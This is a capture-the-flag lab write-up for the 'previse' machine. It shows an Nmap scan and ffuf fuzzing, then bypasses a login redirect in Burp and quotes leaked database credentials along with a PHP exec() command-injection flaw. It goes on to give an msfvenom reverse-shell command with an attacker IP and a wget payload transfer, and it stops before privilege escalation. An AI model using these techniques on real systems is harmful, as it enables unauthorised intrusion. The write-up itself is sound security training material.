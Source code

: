 # previse

`Nmap` scan

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
```

so just 80 for now. the output from `ffuf`

`ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -u` [`http://10.129.186.43/FUZZ`](http://10.129.186.43/FUZZ) `-e .php,.txt`

```text
index.php               [Status: 302, Size: 2801, Words: 737, Lines: 72]
download.php            [Status: 302, Size: 0, Words: 1, Lines: 1]
login.php               [Status: 200, Size: 2224, Words: 486, Lines: 54]
files.php               [Status: 302, Size: 4914, Words: 1531, Lines: 113]
header.php              [Status: 200, Size: 980, Words: 183, Lines: 21]
nav.php                 [Status: 200, Size: 1248, Words: 462, Lines: 32]
footer.php              [Status: 200, Size: 217, Words: 10, Lines: 6]
status.php              [Status: 302, Size: 2966, Words: 749, Lines: 75]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1]
accounts.php            [Status: 302, Size: 3994, Words: 1096, Lines: 94]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1]
logs.php                [Status: 302, Size: 0, Words: 1, Lines: 1]
```

lets go through these files now.

so, when I do /accounts.php, it shows me a redirect that supposed to be protection mechanism for the website :\).

So, lets open up burp and see if we can turn on the intercept and see if we can cheange the `302 FOUND` to `200 OK` and remove the Location header

![](../../.gitbook/assets/image%20%2811%29.png)

![](../../.gitbook/assets/image%20%284%29.png)

now, we got the following page,

![](../../.gitbook/assets/image%20%2814%29.png)

using this page, we are able to create the account as user admin1., and once we do that and login, I'm able to look at a zip file that is on the page at /files.php

![](../../.gitbook/assets/image%20%283%29.png)

```text
# config.php

<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

and this in logs.php, maybe we can inject something here

```text
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

$filepath = "/var/www/out.log";
$filename = "out.log";    
```

so, looks like this above piece of code is where our entry point is, so lets try to confirm that if we have code execution on the remote server by pinging our self from the target machine and running a 

sudo tcpdump -i tun0 icmp on the local machine

![](../../.gitbook/assets/image%20%2810%29.png)

if you see any response on your machine like below, that mostly means we have code execution

![](../../.gitbook/assets/image%20%281%29.png)

so, after confirming that we have code execution, I've run through couple of payloads to get a reverse shell using bash oneliner and python as well, but no luck, so I've used the generated payload from msfvenom

```text
msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=10.10.14.19 LPORT=4242 -f elf -o shell
```

and once we generate this, we can just open up a http server on our local machine, and transfer the file to remote using wget and mark it as an executable chmod 777 /tmp/shell and run it

![](../../.gitbook/assets/image%20%2815%29.png)

once we do that, we get a reverse shell

once we get a reverse shell, we can see that there is a sql server running on the machine, and if you remember, there is a password that we grabbed before for the sql service

![](../../.gitbook/assets/image%20%2813%29.png)

not sure if we'll be able to crack this, but I do remember we got a password salt kind of thing from the code that we downloaded from the zip file we got once we're able to login into the site

![](../../.gitbook/assets/image%20%2812%29.png)

there we go, we got it. lets see if we can crack this, meanwhile in /var/backups I found some gz files, lets have a look at that before we go into cracking \(couldn't crack the password and not much in those gz files as well\), lets run linpeas



